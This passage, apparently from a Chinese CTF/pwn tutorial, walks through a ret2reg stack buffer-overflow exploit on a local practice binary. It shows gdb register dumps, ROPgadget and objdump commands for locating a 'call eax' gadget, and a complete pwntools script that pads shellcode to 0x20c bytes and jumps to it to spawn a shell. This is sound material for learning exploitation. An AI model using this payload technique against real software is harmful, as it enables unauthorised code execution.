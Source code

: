 ```
[----------------------------------registers-----------------------------------]
EAX: 0xffffccb0 --> 0x333231 ('123')
EBX: 0x0 
ECX: 0xffffd19a --> 0x333231 ('123')
EDX: 0xffffccb0 --> 0x333231 ('123')
ESI: 0xf7fb7000 --> 0x1afdb0 
EDI: 0xf7fb7000 --> 0x1afdb0 
EBP: 0xffffced8 --> 0x0 
ESP: 0xffffcebc --> 0x8048450 (<main+36>:	add    esp,0x10)
EIP: 0x804842b (<evilfunction+32>:	ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

可以发现eax的值仍然为缓冲区地址(思路第一步完成)

查找jmp eax或call eax等指令

```
ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
或
objdump -d ret2reg | grep *%eax
```

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2reg --only 'jmp|call' | grep 'eax'
0x0804841f : call dword ptr [eax - 0x18]
0x080484ff : call dword ptr [eax - 0x80000000]
0x08048373 : call eax
```

将EIP(即返回地址)设置成call eax的指令地址(思路第二部完成)

编写脚本，向缓冲区写入shell（思路第三步完成）

```
# -*- coding: utf-8 -*-
from pwn import *

#buf:0x208
#ebp:4
shell = asm(shellcraft.sh())
payload = shell+(0x20c-len(shell))*'A'
payload += p32(0x08048373)

p = process(argv=['./ret2reg',payload])
#gdb.attach(p)
p.interactive()
```

说明：0x20c怎么来的，见链接视频过程，不详述：https://www.bilibili.com/video/av290246951/

```
gdb-peda$ run `python -c "print 'a'*0x204"`
```

或者使用prel命令：
